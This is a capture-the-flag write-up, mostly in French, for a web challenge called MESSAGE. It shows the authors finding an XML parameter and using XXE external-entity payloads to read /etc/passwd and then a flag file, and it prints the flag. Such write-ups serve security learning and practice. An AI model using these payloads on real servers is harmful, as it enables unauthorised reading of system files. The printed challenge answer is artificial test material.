 # MESSAGE 
```
200 pts
```

## Description
```
[FR]
Le roi aimerait vous confier un de ses secrets. Envoyez-lui un message pour obtenir ce secret.

[EN]
The king would like to entrust you with one of his secrets. Send him a message to obtain this secret.

Author: unpasswd

http://ctf.hackerlab.bj:2001
```

> Le challenge nous renvoie vers une page web où l'on peut écrire un message au roi Glèle. En regardant le fichier *robots.txt*, on trouve le mot *[message]*

<image src="File/message1.png">

> On a deduit que c'est probablement un paramètre que l'on peut utiliser pour envoyer un message au roi. Nous avons donc décidé d'intercepter les requêtes avec Burp Suite.

<image src="File/message2.png">
  
> Nous remarquons que le nom du paramètre POST envoyé au serveur est *xml*, ce qui nous fait penser à la vulnérabilité *XXE*.

> Nous avons donc écrit un payload pour essayer de lire le fichier */etc/passwd*, en n'oubliant pas de faire appel à notre entité externe dans la balise *<message>*.

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<xml><message>&xxe;</message></xml>
```
<image src="File/message3.png">
  
> Nous réussissons à lire le contenu du fichier */etc/passwd*. Après avoir cherché dans le répertoire racine, nous trouvons finalement le fichier *flag.txt* dans le répertoire personnel de l'utilisateur *www-data*, c'est-à-dire */var/www/*.

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///var/www/flag.txt"> ]>
<xml><message>&xxe;</message></xml>
```

<image src="File/message4.png">

# Flag
```CTF_great!_you_found_the_secret_by_xxe``` 🚀
